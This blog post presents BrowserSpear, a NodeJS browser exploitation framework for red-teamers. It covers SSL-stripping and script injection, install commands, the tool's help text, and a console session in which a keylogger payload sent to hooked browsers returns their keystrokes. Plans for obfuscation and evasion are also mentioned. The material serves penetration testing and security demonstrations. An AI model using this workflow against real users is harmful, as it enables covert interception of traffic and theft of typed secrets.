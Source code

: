 ```yaml
---
layout: post
---
```

![Intro Browserspear]({{ "/assets/intro_browserspear.jpg" | absolute_url }})

_With the rise of more IoT devices and other cheap off-the-shelf development platforms there is an opportunity to optimize the toolsets of Red-teamers, Penetration Testers and Ethical Hackers. To take full advantage of these devices we need our frameworks to be light and flexible. In this article, I want to present a tool that I built called 'BrowserSpear'. It consist of a basic framework to exploit browsers and is capable of working on all architectures with basic server capacity. Feedback is always welcome._

When demonstrating the need for network security, there are few tools that can really get the appropriate reaction and are easy enough to demo to a crowd of people without actually sending malicious code or using an exploit which might crash the device.

A great demo is to try to downgrade the security of traffic on a network from SSL to unencrypted HTTP. We can do this with tools such as Bettercap, SSLstrip or another variant. After this security downgrade, it is possible to inject extra code into HTTP connections to make the website's background pink or give an alert. Just something that is very noticable to a user and that will get a reaction.

What takes this to the next level is Browser Exploitation. The very famous tool BeEF (Browser Exploitation Framework Project) can control the complete website a target loaded over an unsecure connection after an extra script is injected into it which 'hooks' the client and makes it receive commands from BeEF.

## The issue

Browser Exploitation is nothing new and BeEF is a well-known tool, but it is a bit older, and needs a lot of extra dependencies. Here is were the usage of old libraries like libv8 and specific Ruby gems start to become an issue. Which makes it almost impossible to install on the newer architectures like ARM.

We see many auditing devices built on a mobile architecture such as ARM surface such as the WiFi Pineapple, Packet Squirrel and even your own rooted Android smartphone. Which are compact tools that make a great portable and reliable platform. Using these devices on-the-go or for example a Raspberry Pi as a low-powered server in the cloud is an excellent use of these new and cheaper devices to audit networks and demonstrate attack vectors.

## So what is BrowserSpear?

>Browserspear is a lightweight framework built on the NodeJS engine. The complete core and modules are written in Javascript and adding payloads is as simple as writing an extra function and saving it in the 'modules' folder.

A device that has the server capacity to run NodeJS will be able to act as a server to 'spear' browsers and the complete behavior of the server can be controlled from a shell prompt or scripted beforehand.

BrowserSpear is still under development, but can be found in this Github repo. The core functionalities like code delivery and hooking or 'spearing' targets are fully working.

## How to get started
With NodeJS and NPM installed (through your favourite package manager). Clone the Github-repo and install the following packages:

```
git clone https://github.com/larsveelaert/browserspear.git
npm install websockets prompt uglify-js commander
```

Starting a console session is as simple as running the script. --help will give you all the extra info you need for advanced configuration.

```
$ node browserspear.js --help
  Usage: browserspear [options]
  
  Options:
    -V, --version             output the version number
    -c, --commandfile <file>  file with commands to run in the console
    -p, --port <port>         Port to listen on
    -i, --ip <ip>             The ip address to use in the reverse connection
    -s, --start               Start a listener immediatly
    -h, --help                output usage informatio
```

In the BrowserSpear console. You can get a list of available commands by typing 'help'. Here is an extract:

```
>>> help
Available commands:
- start | restart 
	Restarts the server that serves the spear and provides the socket to connect to
- set <property> <value>
      Sets a value used by the server or module. ex. 'set LHOST: mydomain.org'
- options
      List all the values of the options.
- load <module>
      Loads the functions inside that module. Only one module can be selected at once. ex. 'load keylogger'
- modules <search>
      Gives a list of all available modules, with an optional searchterm.
- exec
      Executes the 'exec' function of the current selected module. Ex. send a payload
- conns
      List all connections to the server
- help
      Print this help.
```

The default address of the spear is localhost:1337. So navigating to this address on you local device running the server (started with start). Would give you the following output:

```
>>> start
>>> Tue Jan 02 2018 14:11:14 GMT+0000 (UTC) Server is listening on port 1337
New connection to client at ::1
>>> conns
List of connections:
 [0] ::1
```

Now we can load a module, for example an attack that logs all keystrokes in that browser called a keylogger. By default, the attack is sent to all the clients connected. The client will then record the keystrokes and send them to the server. The attack will stay active, even if the server is restarted or the module is unloaded.

```
>>> load keylogger
>>> keylogger: exec
Payload sent
>>> keylogger: 
https://www.linkedin.com/redir/invalid-link-page?url=%5B%3A%3A1%5D KEYLOGGER:I will now tell you all my secrets
```

Thats it for the basic usage. As you have control over the full webpage. There is no limit on what you can do within the constraints of Javascript. There are already known attacks to get persistance on the full-domain, cross-domain and even cross-browser.

Looking forward to the Progressive Web Applications. There is a need to correctly mitigate against this attack vector because the native API's already available in the browser are quite powerful and can be easily used against the user (ex. HTML5 webcam, Mic, GPS, Contacts, File access, ...). The ever smaller gap between online and offline will create a need for strong security analysis so system access can be strictly controlled.

## Goals and Roadmap
BrowserSpear will keep expanding it's capabilities aiming towards connection types (including obfiscation/evasion) and pre-configured payloads to make the complete framework very easy to use and very 'hackable'.

As it is an open-source project, development will happen through its Github page. Please feel free to contact me for more info, give feedback or even help to develop the project to its full potential.

Happy spearing!
